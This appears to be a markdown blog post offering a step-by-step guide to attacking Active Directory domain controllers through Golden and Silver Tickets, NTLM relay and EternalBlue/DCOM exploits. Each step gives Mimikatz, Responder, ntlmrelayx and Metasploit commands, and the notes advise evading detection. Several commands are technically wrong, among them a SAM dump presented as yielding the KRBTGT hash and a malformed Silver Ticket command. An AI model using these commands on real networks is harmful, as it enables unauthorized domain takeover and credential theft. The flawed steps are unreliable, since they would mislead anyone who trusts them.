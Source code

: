```yaml
---
title: "Abusing Trusted Domain Controllers: From Privilege Escalation to Domain Domination"
published: 2025-04-20
description: "Exploiting misconfigurations and vulnerabilities in trusted Domain Controllers to escalate privileges and compromise the entire domain."
image: '1.jpeg'
tags: []
category: 'Privilege Escalation'
draft: false
lang: 'ar-eng'

---
```


# Table of Contents

- [Abusing Trusted Domain Controller](#abusing-trusted-domain-controller)
  - [Key Concepts](#key-concepts)
  - [Methods](#methods)
    - [1. Golden Ticket Attack](#1-golden-ticket-attack)
    - [2. Silver Ticket Attack](#2-silver-ticket-attack)
    - [3. NTLM Relay Attack](#3-ntlm-relay-attack)
    - [4. Exploiting SMB and DCOM Vulnerabilities](#4-exploiting-smb-and-dcom-vulnerabilities)
  - [Important Notes](#important-notes)


# Abusing Trusted Domain Controller

A **Domain Controller (DC)** is the server responsible for managing Active Directory (AD) in a network. The **DC** stores and manages user credentials, permissions, and access control for all machines and users in the domain. **Abusing Trusted DC** refers to exploiting vulnerabilities or misconfigurations in the DC to escalate privileges, gain unauthorized access, or control the entire domain.

## Key Concepts

- **Active Directory (AD)**: A directory service that stores information about network resources (users, computers, etc.) and provides authentication and authorization.
- **Domain Admin / Enterprise Admin**: Users with the highest privileges in AD, who can control all aspects of the domain.
- **Kerberos**: A network authentication protocol used by AD to securely authenticate users and services.
- **NTLM**: A legacy authentication protocol used in Windows environments for authentication.
- **Trust Relationships**: DCs in a domain trust each other for authentication purposes. Exploiting this trust can allow attackers to escalate privileges.

## Methods

### 1. Golden Ticket Attack

- **Step 1: Obtain KRBTGT Hash**
  - The **KRBTGT account** is responsible for signing Kerberos tickets in Active Directory.
  - To create a Golden Ticket, you need to dump the **KRBTGT hash** from a compromised machine with high privileges (e.g., Domain Admin).
  - **Tool**: **Mimikatz**
  - **Command**: `mimikatz.exe "lsadump::sam" /inject`
    - This will dump the hashes from the local SAM (Security Accounts Manager) database.

- **Step 2: Generate the Golden Ticket**
  - Once you have the **KRBTGT hash**, you can generate a **Golden Ticket** that will allow you to authenticate as any user (typically a Domain Admin).
  - **Tool**: **Mimikatz**
  - **Command**:
  ```
  mimikatz.exe "kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /rc4:<KRBTGT_hash>"
  ```
  - This command generates a Golden Ticket that can be used to impersonate any user in the domain, including Domain Admins.

- **Step 3: Pass the Golden Ticket**
  - Now that the Golden Ticket is generated, you can use it to authenticate to any service in the domain (e.g., SMB, RDP, etc.).
  - **Tool**: **Mimikatz**
  - **Command**:
  ```
  mimikatz.exe "kerberos::ptt /ticket:<path_to_ticket_file>"
  ```

### 2. Silver Ticket Attack

- **Step 1: Obtain Service Account Hash**
  - To create a Silver Ticket, you need to compromise a service account hash (e.g., for SMB, SQL Server).
  - **Tool**: **Mimikatz**
  - **Command**: `mimikatz.exe "lsadump::sam" /inject`
    - This command will dump the hashes of service accounts.

- **Step 2: Generate the Silver Ticket**
  - Once you have the service account hash, you can generate a **Silver Ticket** for a specific service.
  - **Tool**: **Mimikatz**
  - **Command**:
  ```
  mimikatz.exe "kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /rc4:<service_account_hash> /rc4:<target_service_name>"
  ```

- **Step 3: Pass the Silver Ticket**
  - Use the Silver Ticket to authenticate to the target service (e.g., SMB, RDP).
  - **Tool**: **Mimikatz**
  - **Command**:
  ```
  mimikatz.exe "kerberos::ptt /ticket:<path_to_ticket_file>"
  ```

### 3. NTLM Relay Attack

- **Step 1: Set Up the NTLM Relay Attack**
  - **Tool**: **Responder** or **NTLMRelayX**
  - **Command**:
  ```
  python3 Responder.py -I <interface> -rd
  ```
  - This will start the **Responder** tool to capture NTLM authentication requests.

- **Step 2: Relay the NTLM Authentication**
  - When a victim machine tries to authenticate using NTLM, Responder will capture the request and relay it to a DC or another machine in the network.
  - **Tool**: **Responder** or **NTLMRelayX**
  - **Command**:
  ```
  ntlmrelayx.py -tf targets.txt -smb2support
  ```
  - This will relay the captured NTLM hash to a DC or other target machine.

- **Step 3: Gain Access to DC**
  - If successful, you will authenticate as the victim user, gaining access to the DC or other services in the domain.

### 4. Exploiting SMB and DCOM Vulnerabilities

- **Step 1: Exploit SMB Vulnerabilities (EternalBlue)**
  - **Tool**: **Metasploit** or **EternalBlue**
  - **Command**:
  ```
  msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue"
  ```
  - This will exploit the **EternalBlue** vulnerability in SMB to gain remote code execution on the DC.

- **Step 2: Exploit DCOM Vulnerabilities**
  - **Tool**: **Metasploit** or **DCOM Exploits**
  - **Command**:
  ```
  msfconsole -x "use exploit/windows/dcom/ms03_026_dcom"
  ```
  - This will exploit a vulnerability in **DCOM** to escalate privileges and potentially take control of the DC.

---

## Important Notes:

1. **KRBTGT Hash**: Always ensure you have access to a high-privileged account to dump the **KRBTGT hash**.
2. **Golden/Silver Tickets**: These tickets should be handled carefully and used only when necessary to avoid detection.
3. **NTLM Relay**: This attack is effective in environments where NTLM authentication is still used.
4. **Exploit SMB/DCOM**: Always check for unpatched systems that may be vulnerable to these types of attacks.# Table of Contents

- [Abusing Trusted Domain Controller](#abusing-trusted-domain-controller)
  - [Key Concepts](#key-concepts)
  - [Methods](#methods)
    - [1. Golden Ticket Attack](#1-golden-ticket-attack)
    - [2. Silver Ticket Attack](#2-silver-ticket-attack)
    - [3. NTLM Relay Attack](#3-ntlm-relay-attack)
    - [4. Exploiting SMB and DCOM Vulnerabilities](#4-exploiting-smb-and-dcom-vulnerabilities)
  - [Important Notes](#important-notes)

---

**`Happy Hacking Broo`**

---
